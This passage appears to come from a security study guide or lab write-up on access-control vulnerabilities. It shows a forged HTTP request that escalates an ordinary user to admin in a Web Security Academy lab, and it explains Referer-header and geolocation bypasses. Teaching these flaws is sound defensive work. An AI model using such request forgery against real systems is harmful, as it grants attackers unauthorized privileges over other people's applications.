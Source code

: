 then let's logout and login with normal user like : wiener

and after login send the confirm request to repeater and change the parameter `username` to `wiener` and from any request with wiener copy cookie of wiener and replace it with the old cookie in the confirm request and the request should be like this:

```log
POST /admin-roles HTTP/2
Host: 0a2e00ca03775e138105765800790057.web-security-academy.net
Cookie: session=bQwRae4yJUW31KJZyAk8TjnO3rpzzPwL
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0a2e00ca03775e138105765800790057.web-security-academy.net
Dnt: 1
Referer: https://0a2e00ca03775e138105765800790057.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

And if you send this request the `winer` will be admin

### Referer-based access control

Websites use the `Referer` header in HTTP requests for access controls. It indicates the page from which a request was initiated.

For example, an application strongly enforces access control on the main administrative page at `/admin`, but for sub-pages like `/admin/deleteUser`, it only inspects the `Referer` header. If the `Referer` header contains the main `/admin` URL, the request is allowed.

Attackers can exploit this by forging direct requests to sensitive sub-pages, supplying the required `Referer` header they control, and gaining unauthorized access.

### Location-based access control

Some web sites enforce access controls over resources based on the user's geographical location. This can apply, for example, to banking applications or media services where state legislation or business restrictions apply. These access controls can often be circumvented by the use of web proxies, VPNs, or manipulation of client-side geolocation mechanisms.

# How to prevent access control vulnerabilities

Access control vulnerabilities can generally be prevented by taking a defense-in-depth approach and applying the following principles:
